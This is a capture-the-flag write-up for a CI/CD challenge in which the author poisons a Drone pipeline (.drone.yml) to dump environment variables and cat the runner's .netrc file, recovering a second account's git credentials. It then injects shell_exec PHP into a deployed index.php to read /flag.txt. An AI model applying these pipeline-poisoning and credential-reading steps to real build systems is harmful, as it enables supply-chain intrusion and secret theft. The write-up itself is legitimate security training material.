

# GitOps (DevOps)
**After Challenge Solve**
## Challenge
```
Someone leaked their git credentials (developer:2!W4S5J$6e). How deep can you infiltrate?
This challenge uses vhosts.
Visit git.challenge.nahamcon.com:[YOUR_PORT]
Visit drone.challenge.nahamcon.com:[YOUR_PORT]
Visit web.challenge.nahamcon.com:[YOUR_PORT]

Press the Start button on the top-right to begin this challenge.
```
## Solution
As with the challenge [Poisoned](../Poisoned/README.md) the task is to infiltrate the CI Infratsructure to get malicious code into production.  
After a few tries, it became clear, that the main point is to approve the Pull Request to merge into the `main` Branch. The `README.md? states the following:
```
1. Clone the repo
2. Create a branch
3. Open a pull request
4. Ensure your code passes all the checks
5. Get someone else to approve your PR
6. Merge your changes to master
7. Our gitops system will pull your changes every minute and update the website automatically
```

We can create the Pull Request with the leaked `developer`-user but we will be unable to approve it, until we have a second set of credentials (from the setup it can be assumed, that the second pair would be that of the drone ci)
So we need to get the crendentials.  

### Step1 - Approve PR

Logging in, into gitea, we can change the `.drone.yml` file to give us a few information.
To get the login data we could print out all environment-variables to check if there are some information hidden.

```yaml
---
kind: pipeline
type: exec
name: default
platform:
  os: linux
  arch: amd64
steps:
  - name: getEnv
    commands:
      - printenv
  - name: linting
    commands:
      - phplint --lint .
```

Unfortunately no credentials are present in the environment-variables allone

<details>
    <summary>output</summary>

```
+ printenv
DRONE_BRANCH=developer-patch-1
DRONE_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32482/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE_SYSTEM_HOST=drone.challenge.nahamcon.com:32482
GIT_COMMITTER_NAME=developer
DRONE_GIT_SSH_URL=git@localhost:JustHacking/web.git
CI_BUILD_TARGET=
GIT_AUTHOR_EMAIL=developer@noreply.localhost
CI=true
CI_BUILD_NUMBER=31
CI_BUILD_STARTED=0
DRONE_COMMIT_AUTHOR=developer
DRONE_REPO_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web
DRONE_REPO_NAMESPACE=JustHacking
DRONE_STAGE_OS=linux
DRONE_TARGET_BRANCH=developer-patch-1
CI_BUILD_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web/compare/c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58...7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_GIT_HTTP_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
SHLVL=1
DRONE_COMMIT_BRANCH=developer-patch-1
HOME=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
DRONE_REPO_PRIVATE=true
DRONE_REPO_SCM=
DRONE_STAGE_TYPE=exec
DRONE_SYSTEM_PROTO=http
DRONE_STEP_NUMBER=2
GIT_AUTHOR_NAME=developer
DRONE_BUILD_STATUS=success
DRONE_REPO_VISIBILITY=private
CI_BUILD_EVENT=push
CI_PARENT_BUILD_NUMBER=0
DRONE_BUILD_ACTION=
DRONE_COMMIT_BEFORE=c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58
DRONE_STAGE_ARCH=amd64
CI_BUILD_CREATED=1651429287
CI_COMMIT_AUTHOR_EMAIL=developer@noreply.localhost
CI_COMMIT_SHA=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
CI_REPO_NAME=JustHacking/web
CI_COMMIT_REF=refs/heads/developer-patch-1
DRONE_SOURCE_BRANCH=developer-patch-1
DRONE_STAGE_NAME=default
DRONE_STAGE_STATUS=success
DRONE_COMMIT_MESSAGE=„.drone.yml“ ändern
DRONE_REPO_BRANCH=master
CI_BUILD_FINISHED=0
DRONE_DEPLOY_TO=
DRONE_SYSTEM_HOSTNAME=drone.challenge.nahamcon.com:32482
DRONE_REMOTE_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
CI_REPO=JustHacking/web
CI_COMMIT_AUTHOR_NAME=developer
DRONE_REPO_OWNER=JustHacking
DRONE_STAGE_KIND=pipeline
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CI_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32482/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE=true
DRONE_BUILD_NUMBER=31
DRONE_BUILD_STARTED=1651429288
DRONE_BUILD_LINK=http://drone.challenge.nahamcon.com:32482/JustHacking/web/31
DRONE_BUILD_PARENT=0
DRONE_HOME=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_WORKSPACE=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_COMMIT_AFTER=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_STAGE_DEPENDS_ON=
DRONE_STAGE_VARIANT=
USERPROFILE=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
CI_COMMIT_AUTHOR=developer
CI_REPO_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web
DRONE_STAGE_NUMBER=1
DRONE_STAGE_STARTED=1651429287
CI_COMMIT_BRANCH=developer-patch-1
CI_REPO_REMOTE=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
DRONE_COMMIT=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
GIT_TERMINAL_PROMPT=0
CI_REPO_PRIVATE=true
DRONE_BUILD_EVENT=push
DRONE_BUILD_CREATED=1651429287
DRONE_COMMIT_AUTHOR_EMAIL=developer@noreply.localhost
DRONE_COMMIT_SHA=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_REPO_NAME=web
CI_BUILD_STATUS=pending
DRONE_COMMIT_REF=refs/heads/developer-patch-1
DRONE_STAGE_MACHINE=gitops-92fbced652b9e214-599685cdf7-dwpxr
GIT_COMMITTER_EMAIL=developer@noreply.localhost
PWD=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_BUILD_FINISHED=1651429288
DRONE_COMMIT_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web/compare/c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58...7fa184a404e1c31f960b7a5ad164b9da1fadd29c
HOMEPATH=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
CI_COMMIT_MESSAGE=„.drone.yml“ ändern
DRONE_REPO=JustHacking/web
DRONE_STEP_NAME=getEnv
DRONE_COMMIT_AUTHOR_NAME=developer
DRONE_SYSTEM_VERSION=2.11.0
CI_REMOTE_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
DRONE_STAGE_FINISHED=1651429288
```
</details>


After the challenge I found a [discourse thread](https://discourse.drone.io/t/authenticate-to-git-inside-docker-build/9516) that states `We know that Drone is using .netrc file to authenticate to repositories[...]`.  
We need to find the .netrc file.

Changing the pipeline file to revealed that a `.netrc` file is located in the directory that can be accesses by Env-Variable `$HOME`. 

Reading out the file revealed the login credentials on the gitea server for user droneci
```yaml
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: getEnv
    commands:
      - printenv
      - find / -type f -name .netrc -print
      - cat $HOME/.netrc
  - name: linting
    commands:
      - phplint --lint .
```

```
+ printenv
[...]
HOME=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
[...]

+ find / -type f -name .netrc -print
/tmp/drone-5O8nHRsoCPeXIuBK/home/drone/.netrc

+ cat $HOME/.netrc
machine git.challenge.nahamcon.com login droneci password t4K0@s!qSF
```

We can check that, the credentials work in a seperate browser session  


So Step 1 is done, the login worked, and we can check that we are able to approve a Pull Request.  


After approving the PR we can see, that there is a new commit (I merged as squash merge) in the master branch.  


### Step 2 - infiltrate production

We can use the same trick as with the `.netrc`-File to locate the file `flag.txt`.  
So we change `index.php` to print out all files names `flag.txt` in the file system


After a minute we see that the flag is indeed located at `/flag.txt`


Now that we know where to read the information from, we can extract it, and print it on the website by defineing the php code into the `index.php`-File
```php
    <?php
        $datestr="2022-05-08 12:00:00";
        $date=strtotime($datestr);
        $diff=$date-time();
        $days=floor($diff/(60*60*24));
        $hours=round(($diff-$days*60*60*24)/(60*60));
        $minutes=round((($diff-$days*60*60*24)-$hours*60*60)/(60));

        echo "<h1>THANK YOU FOR THE FISH</h1>";
        echo shell_exec("find / -type f -name flag.txt -print");
        echo "<h1>" . shell_exec("cat /flag.txt") . "</h1>";
    ?>
```

One PR and approval later, we can see the flag printed and ready to copy.


Flag: `flag{9e3dd10bb90e1ad16676470cabb20858}` 


